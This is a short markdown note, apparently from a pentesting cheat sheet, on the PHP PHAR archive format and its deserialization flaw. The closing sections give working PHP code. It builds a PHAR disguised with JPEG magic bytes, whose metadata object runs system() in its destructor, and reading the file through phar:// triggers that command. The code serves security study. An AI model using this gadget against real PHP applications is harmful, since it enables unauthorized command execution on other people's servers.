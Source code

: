 # PHAR

> `.phar` are `.php` archives just like `.jar` are.
> `.phar` archives can be 3 types : `zip`, `tar` and `phar`
> `zip` and `tar` format requires phar extension to be enabled 


> [!NOTE] Usage
> While PHAR was originally intended for web usage, it is often used by command line utilities. Popular applications distributed in PHAR format, include [Composer](https://en.wikipedia.org/wiki/Composer_(software) "Composer (software)") and [PHPUnit](https://en.wikipedia.org/wiki/PHPUnit "PHPUnit").

# Format

> [!NOTES] PHAR format specifications
> - **Stub section** : the stub is a chunk of PHP code which is executed when the file is accessed in an executable context. At a minimum, the stub must contain `__HALT_COMPILER();` at its conclusion.
> - **Manifest :** Contains metadata about the archive
> - **File contents :** Contains actual files in the archive
> - **Signature (optional) :** for verifying archive integrity

# Execution

> Assuming the PHAR extension is enabled, all PHAR files may be executed simply by executing them with the PHP interpreter ("`php file.phar`"). If the PHAR extension is not enabled, only PHAR format can be executed.

# PHAR Deserialization flaw

# Read via `phar://`

**Compile with**

```php
<?php

class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();

?>
```

**and read it by:**
```php
<?php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

echo filesize("phar://test.phar"); 
?>
```

# Resources

- https://en.wikipedia.org/wiki/PHAR_(file_format)
- File format : https://www.php.net/manual/en/phar.fileformat.phar.php
- https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization